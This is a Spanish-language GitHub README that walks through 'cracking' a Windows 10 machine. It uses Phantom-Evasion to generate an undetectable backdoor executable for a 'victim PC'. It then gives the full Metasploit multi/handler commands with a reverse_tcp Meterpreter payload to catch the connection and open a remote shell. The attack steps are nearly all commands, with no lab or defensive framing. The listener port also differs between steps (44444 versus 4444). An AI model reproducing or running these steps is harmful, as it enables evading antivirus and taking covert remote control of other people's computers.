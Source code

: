 # Cracking Windows 10

<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Metasploit Framework es la herramienta más utilizada por los hackers en todo el mundo. Permite a los 
hackers informáticos configurar oyentes que crean un entorno propicio (denominado Meterpreter) para manipular máquinas comprometidas. 

En este artículo, veremos cómo se puede usar este marco dentro de Kali Linux para atacar una máquina con Windows 10. Lo haremos a través de un archivo ejecutable malicioso.

<br>

## Creando un archivo .exe malicioso


Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```

<br>

<p align="center">
<img src="./Img/phantom.png">
</p>

<br>
Seleccionaremos la opción 1, ahora el tipo de modulo opción 2, luego pulsaremos ENTER y en LHOST pondremos nuestra IP y LPORT el puerto 44444 y si nos pregunta yes o no ingresaremos todo yes.

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en la PC victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar a la PC víctima. 

![Informatica](Img/sesion.png)

Ahora para acceder a la terminal ingresaremos el siguiente comando **shell** y listo esteremos dentro de la terminal.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion